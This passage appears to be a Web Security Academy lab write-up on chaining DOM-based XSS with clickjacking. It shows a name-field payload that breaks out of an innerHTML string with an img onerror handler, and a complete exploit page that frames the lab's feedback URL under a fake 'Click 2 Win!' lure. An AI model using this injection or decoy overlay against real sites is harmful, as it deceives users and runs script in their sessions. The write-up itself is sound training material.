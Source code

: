 2. lets breakout of context using **img>** tag (since **Script>** tags dont work in innerhtml) :
```htm
    feedbackResult.innerHTML = "Thank you for submitting feedback" + (
    "dude")<<img src=1 onerror=print(document.domain)><!--
    name ? ", " + name : "") + "!";
            feedbackForm.reset();
```
final payload to be inserted into the name field
```htm
"dude")<<img src=1 onerror=print(document.domain)><!--
```
**test payload in browser and get a POP!**

3. copy working payload (without csrf token) from **POST /feedback/submit HTTP/1.1** and send **POST /feedback HTTP/1.1** to repeater. paste payload Parameters and change request method to **GE**. copy url and insert to iframe at exploit server.

crafted exploit html:
```htm
<html>
    <head>
        <style>
            #vulnarble_website {
                position:relative;
                width:1920px;
                height:1080;
                top: 85px;
                opacity:0.5;
                z-index:2;
                }
            #attacker_website {
                position:absolute;
                z-index:1;
                }
            #attacker_website button {
                margin-left: 425px;
                margin-top: 850;
                }
        </style>
    </head>
    <body>
         <div id="attacker_website">
            <h1>You Are The Winner!!!</h1>
            <button type="button">Click 2 Win!</button>
        </div>      
        <iframe id="vulnarble_website" src="https://0a6100e4047ca3d1c041c16700440011.web-security-academy.net/feedback?name=%22dude%22%29%3C%3Cimg+src%3D1+onerror%3Dprint%28document.domain%29%3E%3C%21--&email=clean%40token.com&subject=123+sbjct&message=XSSed!">
        </iframe>
    </body>
</html>
```

# CLICK!
